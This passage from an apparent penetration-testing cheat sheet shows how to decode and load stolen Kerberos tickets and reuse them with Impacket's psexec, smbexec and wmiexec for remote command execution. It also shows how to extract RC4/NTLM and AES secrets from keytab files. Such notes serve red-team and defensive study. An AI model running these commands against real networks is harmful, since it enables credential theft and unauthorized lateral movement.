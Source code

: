 Refer to the `[Windows] Lateral movements` for more information on how to
leverage the `Impacket` suite for lateral movements in a Windows environment.

```bash
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# If necessary, converts the TGT from KRB_CRED to ccache.
ticketConverter.py  <TICKET_KIRBI_FILE_PATH> <TICKET_CCACHE_FILE_PATH>

# Loads the ticket from the specified file.
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>

# Loads all the tickets in the specified directory. The tickets filename must follow the filename tkt*.
# Unfortunately loading Kerberos tickets from a directory is not a wildy supported feature.
export KRB5CCNAME=DIR:<TICKETS_CCACHE_DIR_PATH>

# Usage of the TGT through Impacket's utilities.
psexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
smbexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
wmiexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
[...]
```

The `klist` utility form the `krb5-user` (`Debian` based distro) or `krb5`
package may be used to list the current tickets:

```bash
klist -A
```

###### [Linux / Windows] Keytab

`Keytab` are files that contain one or multiple `key entries`. Each entry is
composed of a principal (`Kerberos` realm and account name) and an associated
`Kerberos` secret (`RC4` or `AES 128 / 256 bits` keys), stored encrypted.
`Keytab` files can be used to request `Kerberos` tickets without the need of
reentering a password, and are thus particularly useful for service accounts
interacting with a directory service from non-Windows systems. `Keytab` files
can be retrieved, for example, from Linux systems with service accounts using
the Kerberos protocol.

The [`keytabextract.py`](https://github.com/sosdave/KeyTabExtract) Python
script can be used to extract and decrypt the `Kerberos` secrets, `RC4`
(corresponding to the `NTLM` hash) or `AES` keys, from a given `keytab` file:

```
python3 keytabextract.py <KEY_TAB>
```

Additionally, the `kinit`, `ktutil ` and `klist` utilities form the
`krb5-user` (`Debian` based distro) or `krb5` package may be used to interact
with `keytab` files. Note that a `keytab` file is fully independent of the
computer it's been created on, its filename, and its location in the file
system.
